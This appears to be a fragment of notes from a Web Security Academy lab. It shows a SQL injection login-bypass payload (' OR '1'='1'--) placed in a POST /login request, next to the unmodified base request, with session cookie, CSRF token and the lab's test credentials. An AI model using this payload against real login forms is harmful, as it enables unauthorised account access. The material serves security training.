 ' OR '1'='1'--


##### Payload Request
POST /login HTTP/2
Host: 0a26005b0496416c81d7251600d60049.web-security-academy.net
Cookie: session=epBgLpGd94pvLmovg9TZE0ShxkVIzj7w
Content-Length: 82
Cache-Control: max-age=0
Sec-Ch-Ua: "Not;A=Brand";v="24", "Chromium";v="128"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
Origin: https://0a26005b0496416c81d7251600d60049.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a26005b0496416c81d7251600d60049.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

csrf=GOY2pcOHhHciSqvjDrMCPwFkFdP5zALp&username=wiener&password=peter _' OR '1'='1'--_
##### Base request
POST /login HTTP/2
Host: 0a26005b0496416c81d7251600d60049.web-security-academy.net
Cookie: session=epBgLpGd94pvLmovg9TZE0ShxkVIzj7w
Content-Length: 82
Cache-Control: max-age=0
Sec-Ch-Ua: "Not;A=Brand";v="24", "Chromium";v="128"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
Origin: https://0a26005b0496416c81d7251600d60049.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a26005b0496416c81d7251600d60049.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

csrf=GOY2pcOHhHciSqvjDrMCPwFkFdP5zALp&username=wiener&password=peter

